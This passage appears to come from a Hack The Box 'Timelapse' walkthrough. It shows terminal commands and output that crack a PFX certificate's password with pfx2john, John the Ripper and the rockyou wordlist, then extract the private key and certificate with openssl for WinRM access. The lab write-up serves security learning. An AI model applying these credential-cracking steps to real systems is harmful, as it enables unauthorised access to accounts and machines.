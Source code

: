 Luckily john the ripper can brute force this if converted to hash 

```
┌──(venv)─(mark__haxor)-[~/_/B2B/HTB/Timelapse/Dev]
└─$ pfx2john legacyy_dev_auth.pfx > hash
                                                                                                                                                                                                                   
┌──(venv)─(mark__haxor)-[~/_/B2B/HTB/Timelapse/Dev]
└─$ john -w=/home/mark/Documents/rockyou.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thuglegacy       (legacyy_dev_auth.pfx)     
1g 0:00:01:45 DONE (2023-02-07 05:08) 0.009457g/s 30558p/s 30558c/s 30558C/s thuglife06..thug211
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Cool now i'll run it using the password `thuglegacy`

With the password, I can extract the key and certificate. When extracting the key, it asks for the password (I’ll provide `thuglegacy`), and then a password for the output .pem file (anything I want, must be at least four characters):

```
┌──(venv)─(mark__haxor)-[~/_/B2B/HTB/Timelapse/Dev]
└─$ openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out legacyy_dev_auth.key 
Enter Import Password:
Enter PEM pass phrase:
Verifying - Enter PEM pass phrase:
```

Now i'll decrypt the key using the pem pass phrase set in my case i used `1234`

```
┌──(venv)─(mark__haxor)-[~/_/B2B/HTB/Timelapse/Dev]
└─$  openssl rsa -in legacyy_dev_auth.key -out legacyy_dev_auth.key1 
Enter pass phrase for legacyy_dev_auth.key:
writing RSA key
```

Next i'll dump it 

```
┌──(venv)─(mark__haxor)-[~/_/B2B/HTB/Timelapse/Dev]
└─$  openssl pkcs12 -in legacyy_dev_auth.pfx -clcerts -nokeys -out legacyy_dev_auth.crt
Enter Import Password:

┌──(venv)─(mark__haxor)-[~/_/B2B/HTB/Timelapse/Dev]
└─$ l
legacyy_dev_auth.crt  legacyy_dev_auth.key  legacyy_dev_auth.key1  legacyy_dev_auth.pfx*
```

Cool with this we can get access to winrm (ssl)
